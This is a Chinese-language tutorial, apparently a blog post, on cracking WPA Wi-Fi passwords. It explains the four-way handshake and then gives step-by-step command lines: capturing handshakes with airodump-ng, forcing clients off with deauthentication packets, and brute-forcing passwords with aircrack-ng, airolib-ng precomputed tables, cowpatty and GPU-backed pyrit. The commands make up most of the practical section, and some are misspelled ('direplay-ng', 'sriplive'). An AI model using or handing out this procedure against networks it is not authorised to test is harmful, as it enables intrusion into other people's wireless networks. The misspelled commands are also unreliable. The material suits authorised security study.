

介绍
wpa协议的安全性相较wep和wps来说是比较高的，到现在为止没有发现能从协议层破解密码的严重漏洞，前几年公布了krack攻击，可以解密监听数据，但也跟密码没关系，对于获取密码最常用的法子还是爆破，所以WiFi字典一般都不会小
原理
wpa认证有一个四步握手的过程，我觉得下图比较形象的说明了这四步握手

STA是客户端（station），AP是就是无线接入点（access point），开始前还有一步，由于正常情况下双方都知道密钥，他们会先各自由密钥生成相同的PMK，这个PMK是起点，一共需要五个要素生成最终的凭证
第一步
AP先向STA发一个包，其中包含一个随机数ANONCE
第二步
STA接到随机数后会自己生成第二个随机数SNONCE，同时AP的包里会有AP的MAC地址，至此五个要素就起了，分别是PMK，ANONCE，SNONCE，AP的MAC，STA的MAC，STA会用这五个要素生成PTK，并计算校验值MIC，然后会将SNONCE和MIC一起发给AP，注意，PMK和PTK自始至终都不会进行传输，传输的是MIC
第三步
AP接到包后也就凑齐了五要素，计算出了PTK，也就可以算出MIC，对比STA发的MIC，如果一样就是通过了认证，接着发送数据包让STA安装组密钥
第四步
STA发送确认包
利用点
看完这四步我们会发现认证主要在前两部，几个要素除了PMK在前两步都出现了，其实甚至可以不用AP，有的骚思路直接伪造ap，随机数我们可以产生，MAC也可以伪造，完全可以通过前两步套出所有要素。回到破解，我们拿到这几个要素后我们就有了验证对错的MIC和计算的所有要素，只有PMK我们没有，而PMK由密钥和essid计算产生，所以我们就可以用字典进行爆破，用字典的密钥计算出PMK，再计算出PTK,计算出MIC，就可以知到密钥的对错
步骤
实际操作其实很简单，由原理可以看出其实就抓握手包和爆破两步
准备网卡
网卡接入虚拟机，airmon-ng命令准备环境
airmon-ng check kill
杀掉可能有影响的进程
airmon-ng start wlan0
把网卡调至monitor模式抓包
airodump-ng -c 11 -w test -d AA:AA:AA:AA:AA:AA wlan0mon
-c 指定信道，调至目标信道监听效果会更好，不然会进行轮询
-w 指定保存的文件名，会保存多个文件
-d 目标的bssid，就是AP的MAC地址
wlan0mon 网卡，有的无线网卡用airmon-ng改成monitor会改名抓到包后右上角会有提示
这些test开头的都是抓到的文件
这里有一个问题就是握手包是连接的时候才会有的，那没人连的时候就抓不到了，这时候就要打断已有连接，让他们重连一下，抓取握手包
direplay-ng -0 1 -a ap的mac -c 客户端mac wlan0mon
-0 会发送断开连接的包，让STA和AP断开连接，1是次数，可以随意指定，感觉不稳定可以多发几个包，0会一直发包
-a ap的mac
-c 客户端mac，不加-c参数会广播给所有sta，但是有的客户端可能会拒绝广播的攻击
wlan0mon 指定网卡破解
aircrack-ng -w 1.txt test.cap
-w 指定字典
test.cap 抓到的流量文件破解成功结果，我用的是一个三十万的小字典，把密码加在了最后，可以看出速度是一秒五千，而且不是顺序的，我把密码加在了最后而字典跑了五万就把最后一个拿去跑了，说明他不是严格按顺序跑的，如果跑大字典就可以发现他只是大概按顺序跑
加速破解
从之前的破解可以看出，这东西是个挺慢的事，四五千每秒不慢，但是字典动不动百万千万就扛不住了，所以需要加快。
从原理上看我们要算PMK，PTK，MIC，而PMK我们可以提前算，只要知道密钥和wifi名就行，而这恰巧是计算量最大的一步，所以我们可以提前把字典算成彩虹表，这样实际破解的时候速度就会加快不少。
airolib
这是aircrack套件的一部分，会维护一个数据库，算出彩虹表后会存在数据库里，aircrack可以直接从数据库里读取
计算PMK
echo ap的essid > essid.txt
airolib-ng db --import essid essid.txt
创建数据库，导入essid
airolib-ng db --import passwd 字典
导入字典，自动去除不符合格式的密码airolib-ng db --stats
查看数据库状态airolib-ng db --batch
生成pmk执行破解
aircrack-ng -r db test.cap
用数据库中的哈希表进行破解
-r 使用数据库
test.cap 破解文件cowpatty
这是一个单独的wpa爆破工具，可以生成彩虹表和wpa爆破
使用密码字典爆破
cowpatty r wpa.cap -f password.lst -s essid
-r 流量文件
-f 字典文件
-s essid彩虹表爆破
genpmk -f password.lst -d 生成的hash文件 -s essid
生成彩虹表
-f 字典
-s essid
-d 生成的彩虹表文件名
cowpatty -r wpa.cap -d 生成的hash文件 -s essid
-r 流量文件
-d 彩虹表
-s essidpyrit
该工具特殊的地方在于它能调用GPU算力来算彩虹表，别的工具只能用cpu，但是使用条件比较苛刻，他要用显卡，而虚拟机装显卡驱动特别麻烦，要用的话基本得本机装kali，而且kali也不自带这个工具
可以自己抓取数据包，不用airodump-ng
pyrit -r wlan0mon -o wpa.cap sriplive
抓包保存为wpa.cap，只保留握手包
pyrit -r wpa.cap analyze
分析数据包
pyrit -r wpa.cap -o wpapyrit.cap strip
读取airodump抓的包，转换成pyrit格式，并去除其他包只保留握手用密码直接破解
pyrit -r wpa.cap -I pass.lst -b ap的mac attack_passthrough彩虹表模式破解
默认使用基于文件的数据库，支持连接sql数据库，将计算的pmk存 数据库
查看默认数据库状态
pyrit eval
导入密码字典（自动剔除不合规密码）
pyrit -I password.lst import_passwords
指定essid
pyrit -e essid create_essid
计算pmk，发挥gpu算力
pyrit batch
破解密码
pyrit -r wpa.cap -b ap的mac attack_db